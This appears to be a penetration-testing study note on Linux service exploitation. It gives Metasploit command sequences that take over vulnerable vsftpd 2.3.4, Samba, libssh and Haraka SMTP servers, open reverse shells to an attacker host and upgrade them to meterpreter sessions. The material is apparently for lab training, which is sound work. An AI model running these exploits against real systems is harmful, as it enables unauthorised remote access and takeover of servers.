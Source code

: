 # ii - Linux Exploitation

## <mark style="color:red;">Exploiting A Vulnerable FTP Server</mark>

* FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.
* It is also frequently used as a means of transferring files to and from the directory of a web server.
* vsftpd is an FTP server for Unix-like systems including Linux systems and is the default FTP server for Ubuntu, CentOS and Fedora.
* vsftpd V2.3.4 is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through a supply chain attack.

### **Practical Demonstration**

```bash
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor #Exploit for vsftpd 2.3.4
msf5 > use post/multi/manage/shell_to_meterpreter # Upgrade a shell to meterpreter
```



## <mark style="color:red;">Exploiting SAMBA</mark>

* SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).
* SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
* Samba is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
* Samba V3.5.0 is vulnerable to a remote code execution vulnerability, allowing a malicious client to upload a shared library to a writable share, and then cause the server to load and execute it.

### **Practical Demonstration**

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
use exploit/linux/samba/is_known_pipename #Exploit for Samba V3.5.0 to V4.6.4
check # runs a check to know if the victim is vulnerable.
run # we get a shell session, lets upgrade it to a meterpreter session.
search shell_to_meterpreter
use 1
set SESSION 1
set LHOST $kaliIP
run # done.
sessions # view sessions.
```



## <mark style="color:red;">Exploiting A Vulnerable SSH Server</mark>

* SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.
* It is typically used for remote access to servers and systems.
* SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.
* libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side.
* libssh V0.6.0-0.8.0 is vulnerable to an authentication bypass vulnerability in the libssh server code that can be exploited to execute commands on the target server.

### **Practical Demonstration**

```bash
search libssh_auth_bypass
msf5 > use auxiliary/scanner/ssh/libssh_auth_bypass #Exploit for SSH V0.6.0 to V0.8.0
set SPAWN_PTY true
run # we get a shell session.
```



## <mark style="color:red;">Exploiting A Vulnerable SMTP Server</mark>

* SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for the transmission of email.
* SMTP uses TCP port 25 by default. It can also be configured to run on TCP port 465 and 587.
* Haraka is an open source high performance SMTP server developed in Node.js
* The Haraka SMTP server comes with a plugin for processing attachments. Haraka versions prior to V2.8.9 are vulnerable to command injection.

### **Practical Demonstration**

```bash
search type:exploit name:haraka
msf5 > use exploit/linux/smtp/haraka #Exploit for Haraka prior to V2.8.9.
set SVRPORT 9898
set email_to root@attackdefense.test
set PAYLOAD linux/x64/meterpreter_reverse_http
set LHOSTS $kaliIP
run
```

